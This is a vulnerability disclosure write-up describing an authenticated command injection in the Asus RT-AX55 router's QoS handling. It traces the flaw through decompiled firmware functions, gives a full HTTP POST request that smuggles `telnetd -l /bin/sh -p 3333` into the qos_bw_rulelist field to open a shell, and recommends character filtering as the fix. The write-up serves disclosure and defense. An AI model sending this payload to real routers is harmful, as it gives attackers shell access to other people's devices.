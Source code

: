 # 0x01  Vulnerability Description #

The Asus `RT-AX55` router has a vulnerability in command injection after authentication.

# 0x02  Firmware Analysis #

Firmware download: ：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
You can extract it directly using binwalk with the option -Me.

# 0x03  Code Analysis #

Analyzing the `sbin/rc` binary file, in the function `FUN_0001e168`, retrieving the value of `restart_qos` from the HTTP request parameter `action_script`, and then entering the function `FUN_0006fbcc`.

![](./img/1.png)

In the function `FUN_0006fbcc`, when nvram's `qos_enable` is 1 and `qos_type` is 2, the function `FUN_0006cc04` is called.

![](./img/2.png)

In the function `FUN_0006cc04`, it first opens a shell script named "`/tmp/qos`". It then retrieves the value of "`qos_bw_rulelist`" from nvram and splits it into five substrings using the ">" delimiter. The value of the third substring, which is stored in the variable "`local_22c`", is written into the shell script "`/tmp/qos`". Finally, the "`_eval`" function is called to execute the "`start`" function of the "`/tmp/qos`" shell script.

![](./img//3.png)

![](./img//4.png)

![](./img//5.png)

# 0x04  Vulnerability Reproduction #

request:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 428
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/QoS_EZQoS.asp
    Cookie: clickedItem_tab=1; asus_token=b63QlsWOpMozaPKRPxR8iTB9SdVzKNK; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    preferred_lang=CN&firmver=3.0.0.4&current_page=QoS_EZQoS.asp&next_page=QoS_EZQoS.asp&group_id=&action_mode=apply&action_script=restart_qos%3Brestart_firewall%3B&action_wait=15&flag=&TM_EULA=1&qos_enable=1&qos_enable_orig=1&qos_type_orig=2&qos_type=2&qos_bw_rulelist=1%3EA0%3A29%3A19%3A17%3A70%3A32%3E`telnetd%20-l%20/bin/sh%20-p%203333`%3E5120%3E0&qos_type_radio=2&bw_setting_name=on&obw=0.00&ibw=0.00&obw1=&ibw1=&PC_devicename=

![](./img//6.png)

![](./img//7.png)

# 0x05  Vulnerability Fix #

Filter the characters `backtick ; | & $` and `"Line Feed` from `qos_bw_rulelist`.